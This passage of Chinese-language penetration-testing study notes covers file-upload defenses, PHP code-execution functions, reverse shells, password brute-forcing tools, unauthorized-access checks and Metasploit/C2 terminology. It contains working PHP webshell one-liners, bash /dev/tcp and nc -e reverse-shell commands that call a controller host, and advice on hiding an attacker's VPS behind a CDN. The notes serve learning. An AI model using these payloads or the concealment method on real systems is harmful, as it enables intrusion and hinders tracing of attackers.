| -------- | ----------------------- | --------------- |
| PNG      | 89 50 4E 47 0D 0A 1A 0A | PNG 文件固定开头      |
| JPG/JPEG | FF D8 FF                | JPEG 文件开头标识     |
| GIF      | 47 49 46 38             | GIF87a 或 GIF89a |
| PDF      | 25 50 44 46             | `%PDF`          |
| ZIP      | 50 4B 03 04             | 压缩文件开头          |
| RAR      | 52 61 72 21 1A 07 00    | RAR 文件          |

文件上传漏洞防御
- 文件上传的目录设置为不可执行
- 判断文件类型（建议是白名单方式）
- 使用随机数改写文件名和文件路径
- 单独设置文件服务器的域名(把上传文件放到独立域名 = 上传文件永远不可能被当作脚本执行)

### 命令执行
应用未对用户输入做严格检查过滤，导致用户输入的参数被当做命令执行。

危害：
- 继承web服务程序权限执行系统命令或读写文件
- 反弹shell获得目标服务器的权限
- 进一步内网渗透

因为业务需求，在PHP有时需要调用一些执行命令的函数，如：eval(), assert(), preg_replace(), create_function()等，如果存在一个使用这些函数且未被可被用户控制的参数进行检查过滤的页面，那这个页面就可能存在远程代码执行漏洞。

#### PHP代码执行函数
- eval(string $code)
把字符串code作为php代码执行，eval()语言结构非常危险，因为允许执行任意php代码，不要允许传入任何由用户提供的，为经完整验证过的数据。

- assert(mixed $assertion[, string $description])

assert()函数直接将传入的参数当做php代码执行，不需要以分号结尾

如果assertion是字符串，它将被assert()当做php代码执行
`<?php @assert($_POST['cmd'])?>`

- call_user_func(callable $callback [, mixed \$parameter [, mixed \$...]])

第一个参数callback是被调用的回调函数，其余参数是回调函数的参数。

把第一个参数作为回调函数

```
<?php
call_user_func("assert", $_POST['cmd']);
?>
```

- call_user_func_array(callable $callback, array $param_arr)
跟call_user_func差不多


```
<?php
$cmd=$_POST['cmd'];
$array[0]=$cmd;
call_user_func_array("assert", $array);
?>

```
 
#### 系统命令执行
应用系统从设计上需要给用户提供指定的远程命令操作接口，比如创建的路由器，防火墙，入侵检测等设备的web管理界面上，一般会给用户提供一个ping操作的web界面输入目标IP，提交后后台会对IP地址进行ping测试，并返回结果。如果没有做严格安全控制，可能会导致攻击者通过该接口提交恶意命令，让后台执行，从而获得后台服务器权限。

利用PHP系统命令执行函数调用系统命令并执行的这类函数有：
```
system() 执行外部程序，并显示输出
exec() 执行外部程序
shell_exec() 通过shell环境执行命令，将完整输出以字符串方式返回
passthru() 执行unix系统命令并显示原始输出
penti_exec() 在当前进程空间执行指定程序
popen() 打开进程文件指针
proc_pen() 执行一个命令，打开用来输入/输出的文件指针
```

#### 命令执行常用字符


### 漏洞扫描
#### xray
https://github.com/chaitin/xray

文档：https://docs.xray.cool/tools/xray/QuickStart

**爬虫模式**
爬取站点，自动做漏洞扫描

```
xray.exe webscan --basic-crawler http://testphp.vulnweb.com/ --html-output vulnweb.com-1.html
```




**被动扫描**
1、生成ca证书:做被动扫描需要进行证书安装，抓取https站点的时候需要，和bp的配置一个意思

```
xray.exe genca
```

一样的在浏览器导入证书



2、开启监听
```
xray.exe webscan --listen 127.0.0.1:7777 --html-output testphp.html
```

3、 浏览器设置代理


4、 浏览器访问待测试站点，开启扫描



**bp联动XRAY**
1、开启xray监听

2、配置bp




了解就好啦，这种简单就扫的出来的漏洞肯定被别人扫过了，轮不上我们。

**xray写脚本**
文档：
https://stack.chaitin.com/techblog/detail/50

https://docs.xray.cool/plugins/practice/poc/Template

PoC 是漏洞验证代码，不是语言，属于一种概念，表示能触发漏洞的最小工具/脚本。


xray poc编写辅助工具：
https://phith0n.github.io/xray-poc-generation/


其他和xray类似的产品：goby、nuclei

主要是看要使用哪种直接看官方文档就好啦~ 都差不多，poc也差不多


### linux反弹shell

#### linux文件描述符
##### 什么是文件描述符
Linux是一切皆文件的。

文件描述符是一个非负整数，内核需要通过这个文件描述符才可以访问文件，相当于索引，通过索引才能找到需要的内容。

Linux系统中内核默认为每个进程创建三个标准的文件描述符：0（标准输入）、1（标准输出）、2（标准错误）

通过查看/proc/PID/fd 目录下的文件，就可以查看每个进程拥有的所有文件描述符（这个进程当前正在使用 / 打开的所有资源句柄列表）



当打开文件时，系统内核会为特定进程自动创建对应的文件描述符：





- tty：终端设备的的统称 键盘显示器一类的
- pty：虚拟终端，远程telnet到主机或使用xterm时需要的一个终端交互
- pts/ptmx（pts/ptmx结合使用，进而实现pty）：pts是pty的实现方法，与ptmx配合使用实现pty

##### 标准文件描述符
Linux将所有设备都当做文件处理，而Linux用文件描述符标识每个文件对象，当Linux启动的时候会默认打开三个文件描述符。


|文件描述符|缩写|描述|默认设备|
|---|---|---|---|
|0|STDIN|标准输入|默认设备键盘|
|1|STDOUT|标准输出|默认设备显示器|
|2|STDERR|标准错误输出|默认设备显示器|




#### 重定向
重定向是把输出定向到文件或标准流，重定向输入输出本质上就是重定向文件描述符。

- 输入重定向
  - `<` 从文件读取输入
- 输出重定向
  - `>` 将输出保存到文件
  - `>>` 将输出追加到文件
- 管道
  - `|` 将一个程序的输出作为输入发送到另一个程序






#### linux文件描述符操作
- 更改标准输出位置
  - 把标准输出位置更改到test文件中  `exec 1> test`
- 更改标准输入位置
  - 把test文件中的内容重定向到标准输入  `read user 0< test`
- 创建文件描述符
  - 创建 `exec 文件描述符 <> 文件名`
  - 调用  `&文件描述符`
  - 关闭  `exec 文件描述符<&-`  或  `exec 文件描述符>&-`
- /dev/null   特殊文件，写入任何东西都会被清空
  - 把标准错误输出重定向到/dev/null, 从而丢掉不想保存的错误信息  `whoami 2> /dev/null`
  - 快速移除文件中的数据而不用删除文件  `cat /dev/null > test`


/dev/null 和 删除的区别：



#### Bash反弹Shell原理
##### 什么是反弹shell




被控端：`bash -i >& /dev/tcp/{ip}/{port} 0>&1`  控制端的ip和端口

控制端：`nc -lvvp {port}`
- 写入内容：控制端输入 `echo hello > /dev/tcp/{ip}/{port}` 被控端监听端口就会显示输入内容
- 读取内容：被控端输入`cat <  /dev/tcp/{ip}/{port}` 控制端就能显示被控端的内容

- bash -i  打开一个交互式的bash shell
- /dev/tcp/ 是Linux一个特殊设备文件，实际这个文件是不存在的，只是bash实现的用来实现网络请求的一个接口。打开这个文件相当于发起一个socket调用，建立一个socket连接，读写这个文件相当于在这个socket连接中传输数据
- /dev/tcp/{ip}/{port}  在{ip}的{port}端口建立TCP连接
- 0>&1：把标准输入重定向到文件描述符 1 所指向的位置（带&是为了表示是文件描述符，而不是命名为1的文件） 将标准输入的读取对象设置为标准输出的输出对象，即将标准输入也重定向到`/dev/tcp/{ip}/{port}` 即控制端
- `>&` `&>` 混合输出（正确、错误的输出都输出到一个地方），将标准输出、错误输出都重定向到`/dev/tcp/{ip}/{port}` 即控制端


bash反弹shell命令
- `bash -i &> /dev/tcp/{ip}/{port} 0>&1`
- `bash -i > /dev/tcp/{ip}/{port} 0>&1 2>&1`


Linuxshell的集中类型
- bash 默认
- ash
- csh
- tcsh
- zsh


##### 实现交互式shell


shell是执行命令的一个环境

#### Linux反弹shell方法

- NC
  - NC正向Shell
    - 被控端 `nc -lvvp 6666 -e /bin/sh`
    - 控制端 `nc 10.10.1.7 6666`
  - NC反向Shell
    - 控制端 `nc -lvvp 6666`
    - 被控端 `nc -e /bin/sh 10.10.1.11 6666`

还有各种方式的反弹shell，比如python，php，ruby，curl等等，需要用到再查


工具：生成反弹shell命令的：https://github.com/0dayCTF/reverse-shell-generator

## 漏洞攻击利用

### 弱口令密码破解
没有明确定义，通常认为容易被别人猜测或破解工具破解的口令均为弱口令。

- 公共弱口令：创建密码，工具大量密码数据统计得到的频率较高的弱口令
- 条件弱口令：与个人的个人信息有关，还有特殊的指定字符（单词数字等）

weekpassword top 100:  https://www.forbes.com/sites/daveywinder/2019/12/14/ranked-the-worlds-100-worst-passwords/

#### 弱口令密码破解方法
用枚举方式爆破用户信息，具体流程是事先收集好的数据集成一个字段，用字段不断进行枚举，直到枚举成功

暴力破解工具：
- burpsuite
- hydra （协议多，爆破快）
- metasploit
- SNETCracker:https://github.com/shack2/SNETCracker


暴力破解字典
- 已有的字典  历年弱口令 top100 ， github 上搜索弱口令字典
  - https://github.com/k8gege/PasswordDic
  - https://github.com/danielmiessler/SecLists
  - https://192-168-1-1ip.mobi/default-router-passwords-list/
  - https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv
  - https://github.com/Dormidera/WordList-Compendium
- 创建自定义字典
  - Crunch：按自己指定的规则生成密码
  - Cewl：ruby编写的应用程序，可以将给定的url爬行到指定深度，能有选择的跟随外部链接，并返回一个单词列表，这些单词可用于密码破解
  - pydictor （推荐用这个就够了） 

验证码爆破：
- captcha-killer-modified: https://github.com/f0ng/captcha-killer-modified
- 在bp上安装这个插件(验证码的获取和填充)
  - 
- 安装验证码识别服务
  - https://github.com/sml2h3/ddddocr
  - https://github.com/sml2h3/ocr_api_server
- 安装ddddocr ：`python3 -m pip install ddddocr -i https://mirrors.ustc.edu.cn/pypi/web/simple`
- 安装ocr_api_server
  - `git clone https://github.com/sml2h3/ocr_api_server.git`
  - `cd ocr_api_server`
  - `python3 -m pip install -r requirements.txt -i https://mirrors.ustc.edu.cn/pypi/web/simple`
  - `python3 -m pip install Pillow==9.5.0 -i https://mirrors.ustc.edu.cn/pypi/web/simple`
  - 启动：`python3 ocr_server.py --port 9898 --ocr`











### 未授权访问漏洞
需要安全配置或权限认证的地址，授权页面配置不当导致其他用户可以无需认证授权直接访问从而引发重要权限可被操作，数据库或网站目录等敏感信息泄露

常见未授权访问漏洞
- Redis 未授权访问漏洞
- Docker 未授权访问漏洞
- MongoDB 未授权访问漏洞
- Jenkins 未授权访问漏洞
- JBOSS 未授权访问漏洞
- VNC 未授权访问漏洞
- ZooKeeper 未授权访问漏洞
- Rsync 未授权访问漏洞
- Atlassian Crowd 未授权访问漏洞
- CouchDB 未授权访问漏洞
- Hadoop 未授权访问漏洞
- Jupyter Notebook 未授权访问漏洞


#### Redis未授权访问漏洞
nmap端口扫描 `nmap -v -Pn -p 6379 -sV IP`
- -v 显示过程
- -Pn no ping
- sV 版本探测

`redis-cli -h host -p port -a password` 直接不用密码就连接上了就是未授权访问

### Weblogic漏洞
weblogic是用于云环境和传统环境的应用服务中间件，一个基于JavaEE架构的中间件，提供一个现代轻型开发平台，用于开发、集成、部署和管理大型分布式web应用，网络应用和数据库应用的java应用服务器。



端口默认7001
控制后台 http://ip:7001/console

漏洞利用的工具：
- LiqunKit： https://gitcode.com/open-source-toolkit/72153
- Artillery： https://github.com/Weik1/Artillery


dnslog

## 渗透测试框架
### Metasploit

名词解释：
- POC:用来证明漏洞存在的一段代码，没有攻击性
- EXP：Exploit 利用系统漏洞进行攻击的动作、方式、方法，具有攻击性
- Payload：有效载荷，Exploit执行成功后，真正在系统进行执行的代码或指令
- Shellcode：一段用于利用漏洞而执行的代码，16进制机器码，由于其建立正向/反向shell而得名
- Team Server：服务端， C2服务器， Beacon Payload控制器
- Beacon：是Cobalt Strike运行在目标主机上的payload， Beacon在隐藏信道上给我们提供服务，用于长期控制受感染主机
- C2：Command & Control Server简称，也就是命令与控制服务器


MSF 高度模块化，是安全漏洞利用和测试工具，集成各种平台上常见的溢出漏洞和流行的shellcode。




data:包含metasploit用于存储某些漏洞，单词列表，图像等所需二进制文件的可编辑文件
documentation:包含框架的可用文档
lib:metasploit库文件夹
plugins：存放metasploit插件
scripts：存放metasploit脚本，包括meterpreter及其他脚本
tools：存放多种命令行实用程序
modules：存储metasploit模块文件

支持配置数据库存放渗透测试中获取的各种数据



smb：Window下一个文件共享协议




WScript.Shell:是 Windows 系统里已经实现好的一个 COM 对象，
把一部分操作系统能力，包装成接口，开放给脚本和程序调用 (我的理解是一个概念，Window代码中一个开放出来的对象， 像html中，类比就是js中window这个对象)，所以我们可以根据这个对象执行对window系统操作的命令，所以.vbs 脚本 可以 使用 WScript.Shell 对象达到操作系统的目的

COM Scriptlet：是一种用脚本语言（VBScript / JScript）实现的 COM 组件形式，脚本被包装成一个 COM 对象（COM是 Windows 的一种 组件机制，允许程序通过名字创建和调用对象）

### 流量隐藏（反向shell）
使用MSF或CS获得目标机的Sessions或Beacon时，如果直接使用自己的VPS作为MSF或CS服务器时，容易被溯源到攻击者所在VPS主机IP

通过域名上线隐藏IP



通过域名是无法隐藏真实IP的，但是可以利用CDN。CDN内容分发网络的多节点分布式技术，通过加速、代理、缓存隐藏在后面的静态文件或服务，最终实现对外暴露的是CDN多节点的公网域名IP，很难甚至无法溯源真实后端服务器的域名或IP。（攻击者注册域名 → 绑定 CDN → 指向自己后端）




纠结了好久，这个用的场景是反向shell，因为被访问者永远是知道访问者的真实IP的。


### 内网穿透工具ngrok
场景：我本地部署一个web网站，想临时展示给别人看，但是因为本地电脑属于内网，别人是访问不到的，所以需要做内网穿透，让外部能访问内网服务。ngrok就是这样，使用 ngrok 在“我的电脑”和“ngrok 公网服务器”之间建立一条主动连接（隧道），访问方式是ngrok 提供一个公网域名/IP，外部访问这个地址，ngrok 再通过隧道把请求转发到我本地的 Web 服务。

